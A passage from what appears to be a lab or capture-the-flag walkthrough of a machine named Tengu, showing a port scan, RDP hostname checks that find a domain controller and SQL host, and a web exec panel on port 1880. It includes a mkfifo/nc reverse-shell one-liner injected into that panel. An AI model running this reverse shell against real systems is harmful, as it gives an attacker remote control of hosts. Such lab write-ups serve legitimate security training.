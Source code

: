     Machine 0x3
    PORT     STATE SERVICE
    22/tcp     open  ssh
    1880/tcp   open  vsat-control

this is really interesting

we have 1 Linux and 2 Windows machine.

i wanna check hostnames for windows

    ➜  Tengu nxc rdp 10.10.158.54
    RDP         10.10.158.54    3389   SQL              [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL) (domain:tengu.vl) (nla:True)
DC
    ➜  Tengu nxc rdp 10.10.158.53
    RDP         10.10.158.53    3389   DC               [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC) (domain:tengu.vl) (nla:True)

we found DC and SQL

and we have website on 1880

![alt text](<../assets/images/1 (6).png>)

so its seems like basic sql tab like we can run exec command and it will do on sql and put data at /tmp/output so lets go

i put exec command between timestamp to SQL

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.2.152 9001 >/tmp/f

![alt text](<../assets/images/2 (6).png>)
